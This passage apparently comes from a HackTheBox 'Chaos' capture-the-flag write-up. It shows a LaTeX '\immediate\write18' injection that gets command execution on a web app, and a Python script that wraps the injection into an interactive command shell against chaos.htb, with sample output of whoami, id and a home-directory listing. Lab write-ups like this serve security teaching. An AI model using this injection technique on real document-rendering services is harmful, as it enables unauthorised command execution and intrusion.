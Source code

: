  However the `\immediate\write18{whoami}` command is allowed. The output contains extra stuff but we can see that the `whoami` command was executed:

 ![](/assets/images/htb-writeup-chaos/rce.png)

I wrote a quick python script that sends the commands using the method above and also cleans up the output with some regex:

```python
{% raw %}
import re
import requests

headers = {
	'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
	'X-Requested-With': 'XMLHttpRequest',
	'Cookie': 'redirect=1'
}

while (True):
	cmd = raw_input('> ')

	data = {
		'content': '\\immediate\\write18{%s}' % cmd,
		'template': 'test1'
	}

	r = requests.post('http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/ajax.php', headers=headers, data=data)
	out = r.text
	m = re.search('.*\(/usr/share/texlive/texmf-dist/tex/latex/amsfonts/umsa.fd\)\n\(/usr/share/texlive/texmf-dist/tex/latex/amsfonts/umsb.fd\)(.*)\[1', out, re.MULTILINE|re.DOTALL)
	if m:
		print m.group(1)
{% endraw %}        
```

The output of the script looks like this:

```
# python crapshell.py 
> whoami
www-data
 
> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
 
> ls -l /home
total 8
drwx------ 6 ayush ayush 4096 Dec 16 03:32 ayush
drwx------ 5 sahay sahay 4096 Nov 24 23:53 sahay
```
